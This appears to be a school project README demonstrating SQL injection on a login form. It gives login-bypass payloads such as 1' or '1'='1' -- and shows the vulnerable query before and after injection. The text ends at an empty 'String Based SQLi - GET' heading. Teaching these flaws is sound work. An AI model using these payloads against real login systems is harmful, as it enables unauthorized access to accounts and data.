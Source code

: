 # elsys_shop
Small school project. Nothing complicated just simple display of SQL Queries and how to exploit them.

# Basic login bypass
## Hashed input

Username: 
```
1' or '1'='1' --  
```
(note the all the spaces are necessary, even after the comment !)

This works when the password input is hashed, be it MD5 or Sha1.
The password input can be empty, it doesn't matter as we force it to be skipped.
Normal query looks like this:

```
SELECT * FROM users WHERE username='$username' AND password='$password'
```

After the SQL injection the query looks like this:
```
SELECT * FROM users WHERE username='1' or '1'='1' -- ' AND password='da39a3ee5e6b4b0d3255bfef95601890afd80709'
```

## Unhashed input

Username:
```
1' or '1'='1
```
Password:
```
1' or '1'='1
```

Standard query looks just like the previous one.
Malicious query looks like this:
```
SELECT * FROM users WHERE username='1' or '1'='1' AND password='1' OR '1'='1'
```

# String Based SQLi - GET
